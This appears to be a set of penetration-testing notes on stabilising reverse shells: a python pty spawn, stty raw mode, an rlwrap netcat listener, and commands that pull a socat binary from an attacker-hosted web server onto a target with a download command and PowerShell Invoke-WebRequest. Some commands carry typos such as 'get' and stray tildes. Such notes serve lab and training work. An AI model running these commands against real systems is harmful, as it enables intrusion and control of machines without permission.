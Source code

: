 
## Stabilisation

```
python2 -c 'import pty;pty.spawn("/bin/bash")'
```
>have to explicitly state python,python2,python3

```
export TERM=xterm
```
>this will give us access to term commands such as clear

```
^Z 
```
>(press ctrl+Z to background the shell)
```
stty raw -echo; fg
```
>foregrounds the shell gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

---

## rlwrap listener & stabilization
```
rlwrap nc -lvnp <port>
```
>starts listener on host

background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

---

## soCat stabilization

use a webserver on the attacking machine inside the directory containing your socat binary 
```
~sudo python3 -m http.server 80
```
then, on the target machine, using the netcat shell to download the file.
```
get <LOCAL-IP>/socat -O /tmp/socat
```
```
~Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---

## Change terminal tty size~

First, open another terminal and run 
```
stty -a
```
This will give you a large stream of output. Note down the values for "rows" and columns
